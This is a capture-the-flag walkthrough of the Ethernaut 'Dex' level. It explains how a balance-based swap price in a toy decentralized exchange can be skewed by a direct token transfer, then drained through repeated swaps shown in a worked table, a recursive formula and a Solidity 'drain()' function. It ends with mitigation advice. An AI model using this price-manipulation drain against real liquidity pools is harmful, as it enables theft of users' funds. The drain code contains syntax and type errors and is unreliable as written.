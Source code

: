 # Ethernaut Walkthrough: Dex
## Welcome to KweenBirb's 23rd installment of Ethernaut walkthroughs!






Swap price mechanism:

swap price is calculated by dividing newtoken balance by oldtoken balance, multiplied by amount of oldtoken supplied (where balances are this contract's):

function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}

in essence, where new is desired token and old is dumped token:

swapAmount = suppliedAmount * newBalance/oldBalance


Swap function mechanism:

swap function executes as following: 
1. limits parameters to only accept the two storage variables that store tokens for this pool;
2. checks to ensure msg.sender has enough old tokens to call function with provided uint amount
3. call function to set swapAmount = suppliedAmount * newBalance/oldBalance
4. call transferFrom on oldToken, transferring user-specified amount to dump into this contract pool
5. call approve on newToken, allowing this contract to spend swapAmount of desired token
6. call transferFrom on newToken, transferring previously approved swapAmount to msg.sender, completing the (d)exchange

function swap(address from, address to, uint amount) public {
    // limit this function execution to the two token addresses in storage
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    // ensure that msg.sender balance of tokens to dump is sufficient
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    // set swap price
    uint swapAmount = getSwapPrice(from, to, amount);
    // call transferFrom on oldToken, pulling supplied amount from msg.sender into this contract pool
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    // call approve on newToken, approving swapAmount for this contract to spend
    IERC20(to).approve(address(this), swapAmount);
    // call transferFrom on newToken, pushing swapAmount to msg.sender
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}


NOTE! XXX not solution
getSwapPrice() has NO REQUIRE CHECK and is PUBLIC; balanceOf() same thing too!
idea: deploy malicious erc20 contract, assign instance contract balanceOf() to return high and hacker balanceOf() to return low
doesn't work because parameters are sanitized by swap() require and then passed around- cannot change them within swap()


NOTE!
addLiquidity function is onlyOwner! hacker cannot add liquidity directly... therefore if our goal is to manipulate price and exploit getSwapPrice() we can not use addLiquidity()
but instead can change balanceOf(address(this)) underhandedly, in a way the dex doesn't expect:

    transfer() 10token1 to contract -> IERC20(token1).balanceOf(address(this)) == 110
        contract: 100 100 -> 110 100
        hacker:   10  10  -> 0   10
    therefore: swapAmount = 10 * 110 / 100  // 1.1 ratio means hacker can obtain 11token1 in exchange for 10token2
        contract: 110 100 -> 99 110
        hacker:   0   10  -> 11 0
    
    swap again:
    swapAmount = 11 * 110 / 99  // == 12.2 so hacker can exchange 11token1 for 12.2token2
        contract: 99 110 -> 110 97.8
        hacker:   11 0   -> 0   12.2

    again:
    swapAmount = 12.2 * 110 / 97.8  // == 13.7 so hacker can exchange 12.2token2 for 13.7token1
        contract: 110 97.8 -> 96.3 110
        hacker:   0   12.2 -> 13.7 0

    again:
    swapAmount = 13.7 * 110 / 96.3  // == 15.6 so hacker can exchange 13.7token1 for 15.6token2
        contract: 96.3 110 -> 110 94.4
        hacker:   13.7 0   -> 0   15.6

    again:
    swapAmount = 15.6 * 110 / 94.4  // == 18.2
        contract: 110 94.4 -> 91.8 110
        hacker:  0   15.6 -> 18.2 0

    again:
    swapAmount = 18.2 * 110/ 91.8  // == 21.8

You get the point- by causing an initial imbalance of assets in the pool, we can bundle repeated swap calls to leverage the imbalance so that it expands, draining the entire balance of one side of the pool. Abstracted into a repeatable equation, these operations can be represented as follows:

a = 10 * 110 / 100 // 11
a = 11 * 110 / 99 // 12.2
a = 12.2 * 110 / 97.8 // 13.7

f(b) = a * 110 / (110-a) // where a == f(b - 1)
thus:
f(a) = f(a-1) * 110 / (110 - f(a-1))


function to do precisely that:

Dex dex = Dex($your_ethernaut_instance_here);
address public token1 = $your_token1_address_here;
address public token2 = $your_token2_address_here;

function drain()) public {
    IERC20(token1).transfer(dex, 10);  // send 10token1 to dex contract
    while (dex.balanceOf(token1, dex) > 0 || dex.balanceOf(token2, dex) > 0) {
        
        balance = dex.balanceOf(token1, msg.sender);
        if (!balance) { 
            balance = dex.balanceOf(token2, msg.sender);
            dex.swap(token2, token1, balance);
        }

        dex.swap(token1, token2, balance);

    }
}

suggestions for improvement:
never rely on 
1. centralized data sources for price and liquidity calculations
2. recordkeeping via ```address(this)``` as it can be circumvented with transfers or selfdestruct()

implement decentralized oracle data feeds like those of Chainlink to replace ```balanceOf(address(this))``` calls.
